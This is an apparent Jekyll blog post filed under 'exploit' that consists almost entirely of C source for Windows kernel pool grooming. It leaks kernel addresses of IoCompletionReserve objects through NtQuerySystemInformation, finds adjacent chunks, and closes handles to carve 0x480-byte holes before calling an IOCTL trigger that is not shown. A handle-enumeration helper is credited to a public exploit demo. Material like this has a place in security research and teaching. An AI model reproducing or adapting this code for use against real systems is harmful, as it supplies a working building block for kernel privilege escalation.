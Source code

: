 ```yaml
---
layout: post
title: "findMemoryWindows()"
category: exploit
tagline: "Supporting tagline"
tags: [exploit]
---
```

{% include JB/setup %}

## findMemoryWindows()

### struct _PUBLIC_OBJECT_TYPE_INFORMATION
{% highlight C %}
typedef struct _PUBLIC_OBJECT_TYPE_INFORMATION{
	UNICODE_STRING	TypeName;
	ULONG			Reserved[0x2048];
} PUBLIC_OBJECT_TYPE_INFORMATION, *PPUBLIC_OBJECT_TYPE_INFORMATION;
{% endhighlight %}

### findMemoryWindows()
{% highlight C %}
VOID findMemoryWindows(){

	PSYSTEM_HANDLE_INFORMATION_EX handleInfo;
	getHandles(&handleInfo);

	size_t numRetrievedHandles = handleInfo->NumberOfHandles;
	PSYSTEM_HANDLE_TABLE_ENTRY_INFO_EX handleEntry = handleInfo->Handles;

	HMODULE h = LoadLibraryA("ntdll.dll");
	if(!h){
		printf("[-]Failed to load module\n");
		exit(1);
	}
	NtQueryObject pNtQueryObject = (NtQueryObject)GetProcAddress(h, "NtQueryObject");

	DWORD obj_addr[50000][2];
	int j = 0;

	for (size_t i = 0; i < numRetrievedHandles; i++){
		if(handleEntry->UniqueProcessId == (HANDLE) GetCurrentProcessId()){
			PUBLIC_OBJECT_TYPE_INFORMATION public_object_type_information;
			DWORD size = sizeof(public_object_type_information);
			NTSTATUS st = pNtQueryObject(handleEntry->HandleValue, ObjectTypeInformation, &public_object_type_information, size, NULL);
			if(!NT_SUCCESS(st)){
				printf("NtQueryObject() Failed!\n");
				__asm int 3

			}
			wchar_t IoCoObj[20] = L"IoCompletionReserve";
			if(!wcscmp(IoCoObj, public_object_type_information.TypeName.Buffer)){
				// printf("IoCo: %ls\n", public_object_type_information.TypeName.Buffer);
				// printf("handleEntry->Object: 0x%08x\n", (DWORD) handleEntry->Object);

				// printf("handleEntry->HandleValue: %d\n", handleEntry->HandleValue);
				obj_addr[j][0] = (DWORD) handleEntry->Object;
				obj_addr[j][1] = (DWORD) handleEntry->HandleValue;
				j++;
			}
		}
		handleEntry++;
	}
	qsort(obj_addr, 50000, 2*sizeof(DWORD), comp);

	
	DWORD alloc;
	DWORD obj;
	int hole_count = 0;
	for(int i = 0; i < 50000; i++){
		obj = obj_addr[i][0];
		alloc = obj_addr[i][0] - 0x30;
		if((alloc & 0xfffff000) == alloc){
			if(obj_addr[i + 2][0] == obj + 0x100 &&
				obj_addr[i + 3][0] == obj + 0x160 &&
				obj_addr[i + 4][0] == obj + 0x1c0 &&
				obj_addr[i + 5][0] == obj + 0x220 &&
				obj_addr[i + 6][0] == obj + 0x280 &&
				obj_addr[i + 7][0] == obj + 0x2e0 &&
				obj_addr[i + 8][0] == obj + 0x340 &&
				obj_addr[i + 9][0] == obj + 0x3a0 &&
				obj_addr[i + 10][0] == obj + 0x400 &&
				obj_addr[i + 11][0] == obj + 0x460 &&
				obj_addr[i + 12][0] == obj + 0x4c0 &&
				obj_addr[i + 13][0] == obj + 0x520 &&
				obj_addr[i + 14][0] == obj + 0x580){

				/*
				printf("[Adjecient Memory Chunk %d]\n", hole_count);
				printf("obj_addr[i][0] = 0x%08x\n", obj_addr[i][0]);
				printf("obj_addr[i + 2][0] = 0x%08x\n", obj_addr[i + 2][0]);
				printf("obj_addr[i + 3][0] = 0x%08x\n", obj_addr[i + 3][0]);
				printf("obj_addr[i + 4][0] = 0x%08x\n", obj_addr[i + 4][0]);
				printf("obj_addr[i + 5][0] = 0x%08x\n", obj_addr[i + 5][0]);
				printf("obj_addr[i + 6][0] = 0x%08x\n", obj_addr[i + 6][0]);
				printf("obj_addr[i + 7][0] = 0x%08x\n", obj_addr[i + 7][0]);
				printf("obj_addr[i + 8][0] = 0x%08x\n", obj_addr[i + 8][0]);
				printf("obj_addr[i + 9][0] = 0x%08x\n", obj_addr[i + 9][0]);
				printf("obj_addr[i + 10][0] = 0x%08x\n", obj_addr[i + 10][0]);
				printf("obj_addr[i + 11][0] = 0x%08x\n", obj_addr[i + 11][0]);
				printf("obj_addr[i + 12][0] = 0x%08x\n", obj_addr[i + 12][0]);
				printf("obj_addr[i + 13][0] = 0x%08x\n", obj_addr[i + 13][0]);
				printf("obj_addr[i + 14][0] = 0x%08x\n\n\n", obj_addr[i + 14][0]);
				*/

				// Create Memory Windows of 0x480 bytes (0x60*12)
				CloseHandle((HANDLE) obj_addr[i + 2][1]);
				CloseHandle((HANDLE) obj_addr[i + 3][1]);
				CloseHandle((HANDLE) obj_addr[i + 4][1]);
				CloseHandle((HANDLE) obj_addr[i + 5][1]);
				CloseHandle((HANDLE) obj_addr[i + 6][1]);
				CloseHandle((HANDLE) obj_addr[i + 7][1]);
				CloseHandle((HANDLE) obj_addr[i + 8][1]);
				CloseHandle((HANDLE) obj_addr[i + 9][1]);
				CloseHandle((HANDLE) obj_addr[i + 10][1]);
				CloseHandle((HANDLE) obj_addr[i + 11][1]);
				CloseHandle((HANDLE) obj_addr[i + 12][1]);
				CloseHandle((HANDLE) obj_addr[i + 13][1]);

				hole_count++;
			}
		}
	}

	triggerIOCTL();

	for(int i = 0; i < 50000; i++){
		obj = obj_addr[i][0];
		alloc = obj_addr[i][0] - 0x30;
		if((alloc & 0xfffff000) == alloc){
			if(obj_addr[i + 14][0] == obj + 0x580)
				CloseHandle((HANDLE) obj_addr[i + 14][1]);
		}
	}
	printf("Total Windows = %d\n", hole_count);

}
{% endhighlight %}

### BOOL getHandles(PSYSTEM_HANDLE_INFORMATION_EX* handleInfo)
{% highlight C %}
BOOL getHandles(PSYSTEM_HANDLE_INFORMATION_EX* handleInfo)
{
	// Source: https://github.com/clymb3r/KdExploitMe/blob/master/ExploitDemos/KernelAddressLeak.cpp

	BOOL functionSuccess = false;
	ULONG handleInfoSize = sizeof(SYSTEM_HANDLE_INFORMATION_EX)+(sizeof(SYSTEM_HANDLE_TABLE_ENTRY_INFO_EX)* 10000);
	NTSTATUS status = STATUS_INFO_LENGTH_MISMATCH; //Make status be an error so the loop starts.
	*handleInfo = NULL;

	HMODULE hModule = LoadLibraryW(L"ntdll.dll");
	NtQuerySystemInformation pNtQuerySystemInformation = (NtQuerySystemInformation)GetProcAddress(hModule, "NtQuerySystemInformation");
	FreeLibrary(hModule);
	if (pNtQuerySystemInformation == NULL){
		printf("- Error: Cannot retrieve NtQuerySystemInformation address.\n");
		goto Cleanup;
	}

	ULONG requiredSize = 0;
	while (status == STATUS_INFO_LENGTH_MISMATCH){

		if (*handleInfo){
			free(*handleInfo);
		}

		//Allocate space for NtQuerySystemInformation and call it
		*handleInfo = (PSYSTEM_HANDLE_INFORMATION_EX)malloc(handleInfoSize);
		ZeroMemory(*handleInfo, handleInfoSize);
		status = (*pNtQuerySystemInformation)((SYSTEM_INFORMATION_CLASS) 64, *handleInfo, handleInfoSize, &requiredSize);
		//If there isn't enough space in the buffer, increase the buffer size
		if (NT_SUCCESS(status)){
			break;
		}
		else if (status == STATUS_INFO_LENGTH_MISMATCH){
			ULONG additionalSpace = sizeof(SYSTEM_HANDLE_TABLE_ENTRY_INFO_EX)* 1000;
			if (ULONG_MAX - additionalSpace < requiredSize){
				printf("- Error: Looping error increasing buffersize for NtQuerySystemInformation.\n");
				goto Cleanup;
			}
			handleInfoSize = requiredSize + additionalSpace;
		} else {
			printf("- Error: Unexpected error from NtQuerySystemInformation. Error: 0x%x\n", status);
			goto Cleanup;
		}
	}
	printf("+ QueryNtHandles returning success: NtQuerySystemInformation returned %i entries.\n", (*handleInfo)->NumberOfHandles);
	functionSuccess = true;

Cleanup:
	if (!functionSuccess){
		if (*handleInfo){
			free(*handleInfo);
			*handleInfo = NULL;
		}
	}
	return functionSuccess;
}
{% endhighlight %}